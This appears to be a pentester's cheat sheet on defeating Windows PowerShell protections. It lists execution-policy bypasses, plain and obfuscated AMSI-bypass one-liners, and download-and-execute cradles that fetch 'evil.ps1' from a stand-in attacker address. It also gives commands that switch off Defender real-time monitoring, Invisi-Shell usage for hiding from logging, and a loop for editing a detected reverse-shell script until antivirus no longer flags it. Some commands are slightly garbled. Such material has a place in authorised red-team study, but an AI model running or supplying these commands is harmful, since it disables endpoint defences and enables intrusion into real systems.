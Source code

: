 - [Tricks to Bypass protections](#tricks-to-bypass-protections)
  * [Execution Policy Protection](#execution-policy-protection)
  * [AMSI Bypass](#amsi-bypass)
  * [Memory Execution](#memory-execution)
  * [Disable Defender](#disable-defender)
  * [Invisi Shell](#invisi-shell)
  * [AMSI Trigger](#amsi-trigger)
  * [References](#references)


## Tricks to Bypass protections

### Execution Policy Protection
---
```powershell
C:> powershell -ExecutionPolicy bypass
C:> powershell -c <cmd>
C:> powershell -encodedcommand
C:> $env:PSExecutionPolicyPreference = "bypass"
```

### AMSI Bypass
---
Plain:
```powershell
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
Obfuscation:
```powershell
C:> sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
```powershell
C:> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
### Memory Execution
---
```powershell
C:> iex New Object Net.WebClient DownloadString('https://webserver/payload.ps1')
```
```powershell
C:> $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible ==$False;$ie.navigate('http 192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```powershell
C:> $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send;iex $h.responseText
```
```powershell
C:> $wr=[System.NET.WebRequest]::Create("http 192.168.230.1/evil.ps1")
C:> $r=$w. GetResponse()
C:> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
PSv3 Onwards:
```powershell
C:> iex (iwr 'http 192.168.230.1/evil.ps1')
```

### Disable Defender
---
Admin Privileges Required
```powershell
C:> Powershell -ep bypass
C:> Set-MpPreference -DisableIOAVProtection $true
C:> Set-MpPreference -Disablerealtimemonitoring $true
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
### Invisi Shell
---
From the [Tool GitHub](https://github.com/OmerYa/Invisi-Shell): _Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API._

- Having Admin Privileges:
```powershell
C:> RunWithPathAsAdmin.bat
```
- Non Admin:
```powershell
C:> RunWithRegistryNonAdmin.bat
```

### AMSI Trigger
---
To identify the part of a PowerShell script that is detected by AV. 
Simply provide the path to the script file to scan:
```powershell
C:> AmsiTrigger_x64.exe -i C: AD Tools Invoke PowerShellTcp_Detected.ps1
```
Steps:
- Scan using the tool
- Modify code snippet
- Reescan
- Repeat until we get as result "AMSI_RESULT_NOT_DETECTED" or "Blank"

### References
---
- [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/): Ways to Bypass AMSI
- [AMSI Trigger](https://github.com/RythmStick/AMSITrigger)
- [Invoke Obfuscation](https://github.com/danielbohannon/Invoke Obfuscation)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)


